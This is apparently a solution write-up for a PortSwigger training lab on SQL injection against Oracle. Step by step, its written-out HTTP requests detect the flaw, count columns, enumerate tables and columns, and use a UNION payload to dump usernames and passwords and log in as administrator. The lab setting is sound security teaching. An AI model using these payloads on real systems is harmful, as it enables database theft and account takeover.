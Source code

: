 # [Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```sql
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns
3. Finding a column containing text:

    ```sql
    GET /filter?category='UNION+SELECT+'s','s'+FROM+dual-- HTTP/1.1`
    ```

    - => both columns contain text

4. get all table names of oracle db:

    - <https://portswigger.net/web-security/sql-injection/cheat-sheet>
    - <https://docs.oracle.com/database/121/REFRN/GUID-6823CD28-0681-468E-950B-966C6F71325D.htm#REFRN20286>

    ```sql
    GET /filter?category='UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables-- HTTP/1.1`
    ```

    - interesting table: `USERS_ZPJVMK`

5. get the names of the columns of the table `USERS_ZPJVMK`:

    - <https://portswigger.net/web-security/sql-injection/cheat-sheet>
    - <https://docs.oracle.com/database/121/REFRN/GUID-F218205C-7D76-4A83-8691-BFD2AD372B63.htm#REFRN20277>

    ```sql
    GET /filter?category='UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_ZPJVMK'-- HTTP/1.1`
    ```

    - get 2 column names `PASSWORD_TEOTEK` and `USERNAME_WMHJBY`

6. Exploit:

    ```sql
    GET /filter?category='UNION+SELECT+PASSWORD_TEOTEK,USERNAME_WMHJBY+FROM+USERS_ZPJVMK-- HTTP/1.1`
    ```

    - got admin credentials

7. Login to admin account => Lab Solved
